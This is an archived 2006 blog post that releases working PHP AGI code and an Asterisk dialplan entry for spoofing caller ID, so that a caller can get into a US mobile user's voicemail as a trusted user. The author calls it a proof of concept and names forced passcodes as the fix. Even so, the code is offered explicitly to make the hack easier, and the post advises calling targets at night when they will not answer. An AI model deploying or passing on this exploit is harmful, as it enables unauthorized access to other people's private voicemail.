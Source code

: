 ```yaml
---
date: 2006-09-24T23:36:16Z
tags: technology, technology
title: Hacking mobile voicemail with Asterisk and caller ID spoofing
wordpress_id: 1352
wordpress_url: http://www.nata2.org/2006/09/24/hacking-voicemail-with-asterisk-and-caller-id-spoofing/
---
```


So there has always had a problem with US mobile providers having their voicemail be susceptible to being compromised by calling with a spoofed caller id. Apparently most providers caller id apps just checks the referring callerid - and doesn't force the voicemail user to pick a passcode; so it allows someone to trick the voicemail app into believing they are calling from a trusted number.

This has been covered all <a href="http://www.toast442.org/C662738431/E680925937/index.html">over the</a> <a href="http://www.i-hacked.com/content/view/124/47">Internet</a> and was in the <a href="http://www.macdevcenter.com/pub/a/mac/2005/01/01/paris.html">spotlight</a> awhile back when it was alleged that this was how <a href="http://blog.tmcnet.com/blog/tom-keating/mobile-phones/paris-hilton-hacks-voicemail-using-asterisk.asp">Paris Hilton's mobile phone was hacked</a>. It is a pretty big problem and is probably really easy to fix.

So, just to make things funnier - I decided that I would release a snippit of code that would make it easier to execute this hack.
<blockquote>#!/asterisk/php/bin/php -q
&lt;?

set_time_limit(30); //make sure the php script doesn't time out
require('phpagi.php'); // include the phpagi class
error_reporting(E_ALL);  // limit the errors

$agi = new AGI(); // instantiate the AGI class
$agi-&gt;answer(); // answer the phone
sleep(2); // wait a sec or two

$agi-&gt;stream_file('enter_spoof'); // speak a wav file that says "enter the number"
$result = $agi-&gt;get_data('beep', 3000, 10); // beep and grab the 10 numbers
$agi-&gt;verbose("Number to call:".$result['result']); // throw info so you know whats up
$agi-&gt;set_callerid($result['result']); // set caller id to the number you are calling
$agi-&gt;exec("Dial IAX2/iax-provider/1".$result['result']); // call the number

?&gt;</blockquote>
You can add this to your /var/lib/asterisk/agi-bin dir and then specify the extension you want to use to dial and execute the php/agi script
<blockquote>exten =&gt; 666,1,Answer
exten =&gt; 666,2,AGI(tmobilevoicemail_spoof.php)
exten =&gt; 666,3,Hangup</blockquote>
Then when you dial 666  it executes the script. It will ask you what number to dial then dial it after setting the caller id to the same number. It will dial the number and then ring the phone. If the phone is on and the target number is answered - it won't work; however if the person doesn't answer you will be placed in the targets voicemail as a trusted user. So, I would suggest calling people in the middle of the night or when you know they will not answer. Wait.. I actually wouldn't suggest calling anyone but yourself.

It seems to me that the only viable solution that will be compatible with all phones, people and providers is to force the users to choose passcode to your voicemail.

This is - of course - a proof of concept. You should not actually hack peoples voicemails. That is not very nice.  We are into being nice.

Also, check out my <a href="http://www.nata2.org/2006/02/14/caller-id-spoofing-with-php-and-asterisk/">previous entry on caller id spoofing</a>.
